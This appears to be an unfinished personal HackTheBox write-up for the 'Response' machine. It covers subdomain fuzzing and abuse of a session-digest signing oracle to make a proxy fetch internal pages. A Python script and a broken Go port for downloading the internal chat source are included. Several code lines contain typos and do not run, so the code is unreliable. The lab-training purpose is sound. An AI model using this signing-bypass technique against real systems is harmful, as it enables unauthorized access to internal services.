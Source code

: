 # Response Helped-Through

Name: Response
Date:  
Difficulty:  Insane
Goals:  
- Python, Go and C programming personal improvements 
- Azure Application hosting for AZ104 and beyond..
- Shadow IT to be a better Sys Admin 
- VS Code / Codium snyk plugin is must to have!
Learnt:
- API hacking - Burpsuite best practices regarding forking requests 
- Session and Cookie hacking - key expose signing reuse to the then control json field that use that key
Beyond Root:
- Golang  version of the web server and spawn a another webserver for vulnerabale machine
- Implement a server with
	- Azure App Service
	- Docker containerise windows work station and kubernetes a web app for Vuln machine I want to template out and make
	- Application gateway for routes and OWASP top 10
	- Private DNS endpoint
	- TLS/SSL implementation for CSPA twinned with HTB academy TLS/SSL module
- Rogue DNS setup 


Twinned with [[Absolute-Helped-Through]]

- [[Response-Notes.md]]
- [[Response-CMD-by-CMDs.md]]

[Ippsec Response Video Writeup](https://www.youtube.com/watch?v=-t1UAvTxB94)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)


```bash
ffuf -u http://www.response.htb -H "Host: FUZZ.response.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ --mc all -fw 3 -o ffufhosts.out
# use jq to read ffuf output file and remove and format output for easy added to /etc/hosts 
cat ffufhosts.out | jq '.results[] .host' | tr -d '"' | tr -s '\n' ' '
# RESPADDHOSTS=$(cat ffufhosts.out | jq '.results[] .host' | tr -d '"' | tr -s '\n' ' ')
echo "$IP response.htb www.response.htb proxy.response.htb" | sudo tee -a /etc/hosts 
# Or
echo "$IP response.htb $RESPADDHOSTS" | sudo tee -a /etc/hosts 
```

www vhost has potential email format 

/status/ page, open debugger and watch what happens - for proxy vhost. It is best practice to also send to burpsuite's repeater tab each fork in the request chain and name each as we can start to lose track in the GUI what each repeater subtab is for.


Or use burpsuite proxy /status/ then `Right Click -> Intercept response to this request`  - Ippsec *"something in the javascript is dynamic, because it ended in .php"*

`OPTION /fetch` is common for APIs as client may require for HTTP verbs - for api vhost and `Right Click -> Intercept response to this request`

```bash
echo $BASE64 | base64 -d | jq .
```

Append with `sed` to modify the /etc/hosts file.
```bash
sudo -i 's/proxy.response.htb/proxy.response.htb api.response.htb/g' etc/hosts 
```

If try to browse to `api.response.htb` then we get 403 possibly because it is on localhost or 127.0.0.1

API hacking
- Change json fields `url` as `url_digest` is a checksum
- Measure `url_digest` 

What is weird for Ippsec
- Session and Session digest is the same across all three requests
- Measure Session and Session digests to figure out hash type 


main.js.php - the cookie may be creating the session as it is PHPSESSID and if the same key is used to sign the session the cookie and the url.
```json
request: modify the PHPSESSID
response: check the session_digest 
```

Change to PHPSESSID to `chat.response.htb` request `main.js.php` and use then hash created with `/fetch` page to get a page back! Bypass the signing by forcing the server to sign anything we want!

Download the source code!

Coding as fast as ChatGPT and Ippsec combined, but having a python revision lesson
```python
# main.py
import requests # to make requests..
import re # regex to pull the digest
import base64 # for the decode and encode

def get_digest(url):
	cookie = {
		"PHPSESSID": url
	}
	r = requests.get("http://www.reponse.htb/status/main.js.php", cookies=cookie)
	res = re.search(r"'session_digest':'([0-9a-f]*)'};", r.text)
	print("Session digest: " + res.group(1))
	return res.group(1)

def download_url(url):
	url_digest = get_digest(url)
	payload = {
		"url": url,
		"url_digest": url_digest,
		"method": "GET",
		"session": "",
		"session_digest": ""
	}
	r = resquests.post("http://proxy.response.htb/fetch", json=payload)
	return r

r = download_url("http://chat.response.htb")
data = base64.b64decode(response["body"])
with open("chat_source.zip", "wb") as f:
	f.write(data)

print(r.json())
```

VS code / Codium:

Set a breakpoint:
- `Click in the margin by the line number` - a red dot will appear

Debug Console
- If a part of your code errors out you can display contents of variables by just typing them

Go version - No chatGPT
```go
package main

import (
	"fmt"
	"log"
	"net/http"
	"net/http/cookiejar"
	"regexp"
)

// Help from
// https://golangbyexample.com/cookies-golang/
// https://pkg.go.dev/net/http/cookiejar@go1.20.6
// https://pkg.go.dev/regexp#MatchString - check
// https://go.dev/blog/json - soon!

var client http.Client

func initialiseClient() {
	jar, err := cookiejar.New(nil)
	if err != nil {
		log.Fatalf("Got error while creating cookie jar %s", err.Error())
	}
	client = http.Client{
		Jar: jar,
	}
}

func main() {

	fmt.Println()
}

func getDigest(url string) (string, error) {
	cookie := &http.Cookie{
		Name:  "PHPSESSID",
		Value: url,
	}

	req, err := http.NewRequest("GET", "http://www.reponse.htb/status/main.js.php", nil)
	if err != nil {
		log.Fatalf("Got error %s", err.Error())
	}
	req.AddCookie(cookie)

	resp, err := client.Do(req)
	if err != nil {
		log.Fatalf("Error occured. Error is: %s", err.Error())
	}
	re := regexp.MustCompile(`'session_digest':'(0-9a-f)*'`)
	getSessionDigest := re.Find([]byte(resp.text))
	fmt.Println("Session Digest: %s", getSessionDigest)
	return getSessionDigest
}

func download_url() error {
}
```

https://www.youtube.com/watch?v=-t1UAvTxB94 24:00


## Exploit

## Foothold

## PrivEsc


## Beyond Root

Proxy code 
```python 
```


## Testing to then design of Vulnerable Machine(s)

OSCP level Windows and Active Directory Jungle Gym

- Make OSCP level 
- Have good theme
- Make the Kubernetes, docker container only for pivoting not for escaping
- Make uber vulnerable switch once completed
- Ascii Art of completion